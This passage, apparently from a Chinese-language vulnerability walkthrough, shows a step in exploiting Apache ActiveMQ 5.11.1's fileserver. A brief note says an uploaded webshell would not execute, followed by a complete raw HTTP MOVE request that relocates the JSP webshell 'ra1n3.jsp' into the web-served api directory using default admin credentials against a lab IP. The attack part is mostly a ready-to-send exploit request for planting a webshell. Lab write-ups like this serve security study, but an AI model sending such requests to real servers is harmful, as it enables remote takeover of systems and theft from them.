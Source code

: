 ![image-20250408204005451](./assets/image-20250408204005451.png)

成功上传，但是无法解析



移动webshell到web目录下的api目录中（/opt/apache-activemq-5.11.1/webapps/api/ra1n3.jsp）

```
MOVE /fileserver/ra1n3.jsp HTTP/1.1
Destination:file:///opt/apache-activemq-5.11.1/webapps/api/ra1n3.jsp
Host: 192.168.1.15:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 08 Apr 2025 12:31:37 GMT
Priority: u=0, i
```
